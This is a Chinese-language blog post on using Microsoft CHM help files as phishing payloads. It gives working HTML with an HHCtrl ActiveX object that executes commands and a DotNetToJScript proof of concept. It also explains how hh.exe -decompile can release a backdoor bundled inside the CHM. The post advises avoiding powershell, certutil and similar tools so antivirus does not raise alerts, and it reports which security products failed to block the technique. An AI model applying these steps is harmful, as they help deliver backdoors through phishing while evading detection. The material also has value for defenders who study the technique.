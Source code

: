 ```yaml
---
layout: post
title: "使用CHM文件进行钓鱼"
date: 2020-01-30 17:56:19 +0800
categories: apt
---
```

进行钓鱼选择合适的payload非常重要，使用一些容易让人放松警惕的文件格式可以大大提高钓鱼的成功率。CHM是微软推出的基于HTML的帮助文件系统，被 IE 浏览器支持的JavaScript, VBScript, ActiveX,等，CHM同样支持。因此使用CHM作为钓鱼的payload非常合适。本文总结了两种基于CHM执行命令的方式。

# 使用com控件命令执行

根据@ithurricanept的twitter

![](https://raw.githubusercontent.com/CitrusIce/blog_pic/master/20200130165102.png)

<https://twitter.com/ithurricanept/status/534993743196090368>

使用了js调用com控件执行命令

源码如下：

```html
<!DOCTYPE html><html><head><title>Mousejack replay</title><head></head><body>
command exec 
<OBJECT id=x classid="clsid:adb880a6-d8ff-11cf-9377-00aa003b7a11" width=1 height=1>
<PARAM name="Command" value="ShortCut">
 <PARAM name="Button" value="Bitmap::shortcut">
 <PARAM name="Item1" value=',calc.exe'>
 <PARAM name="Item2" value="273,1,1">
</OBJECT>
<SCRIPT>
x.Click();
</SCRIPT>
</body></html>
```

## POC

使用HTML Help Workshop

<http://microsoft.com/en-us/download/details.aspx?id=21138>

创建一个新的project，添加文件后进行编译

![](https://raw.githubusercontent.com/CitrusIce/blog_pic/master/1580212823088.png)


测试：


![](https://raw.githubusercontent.com/CitrusIce/blog_pic/master/1580212859994.png)


## 利用

实际测试的时候注意到了以下几点：

- 执行命令的时候注意传入的参数与程序名需要用逗号隔开，参数与参数之间不需要。

- 考虑到进行敏感操作会导致杀软提示，因此尽量避免使用powershell、bitsadmin、certutil、cscript等。
- 通过cmd执行命令也属于敏感操作，因此使用多个控件依次执行命令。

在搜索的过程中发现.chm文件的默认程序hh.exe具有decompile的功能，可以将打包进chm的文件释放出来

```
HH.EXE -decompile D:/xTemp/decompile-folder C:/xTemp/XMLconvert.chm
```

因此可以将后门程序一起打包进chm文件中，运行时调用hh.exe释放chm中的后门程序再执行。

测试：

使用360测试的时候效果不太理想，在联网情况下使用hh.exe decompile会被拦截，断网情况下没有问题。

使用火绒测试没有任何拦截。

# 使用js加载.net

既然可以利用chm执行js，那为什么不内嵌.net和dll呢？

<https://github.com/tyranid/DotNetToJScript>

## POC

编写一个.net dll

```csharp
namespace ClassLibrary1
{

    public class Class1
    {
        public Class1()
        {
            /* Start notepad */
			Process.Start("notepad.exe");
        }
    }
}
```

生成js脚本

```
DotNetToJScript.exe -o 1.js ClassLibrary1.dll -c ClassLibrary1.Class1
```

执行js脚本


![](https://raw.githubusercontent.com/CitrusIce/blog_pic/master/1580376712378.png)


## 利用

本来想直接加载shellcode上线，但是有问题，因为对.net不了解所以只能放弃了。。。

最后还是下载后门程序然后执行

测试：

美中不足的是加载使用js加载.net会有启用activeX控件的警告，必须点“是”之后才能加载。

360火绒均不拦截

![](https://raw.githubusercontent.com/CitrusIce/blog_pic/master/20200130173719.png)
